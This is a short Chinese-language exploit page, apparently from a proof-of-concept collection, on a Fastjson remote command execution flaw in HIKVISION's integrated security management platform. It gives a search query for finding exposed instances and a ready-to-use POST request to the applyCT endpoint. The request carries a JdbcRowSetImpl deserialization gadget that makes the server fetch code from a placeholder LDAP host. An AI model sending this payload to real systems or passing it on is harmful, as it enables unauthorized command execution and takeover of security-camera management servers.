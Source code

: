 # HIKVISION 综合安防管理平台 applyCT Fastjson远程命令执行漏洞

## 漏洞描述

HIKVISION 综合安防管理平台 applyCT 存在低版本Fastjson远程命令执行漏洞，攻击者通过漏洞可以执行任意命令获取服务器权限

## 漏洞影响

<a-checkbox checked>HIKVISION 综合安防管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="HIKVISION-综合安防管理平台"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1647517887798-06e24b68-d89a-4223-aee3-50ca22081807.png)

验证POC

```javascript
POST /bic/ssoService/v1/applyCT 
Content-Type: application/json

{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://xxx.xxx.xxx.xxx/Basic/TomcatEcho","autoCommit":true},"hfe4zyyzldp":"="}
```

![img](../../../.vuepress/public/img/1661183408780-ae3f95b1-7c3b-42d9-b03a-f2f314309543.png)
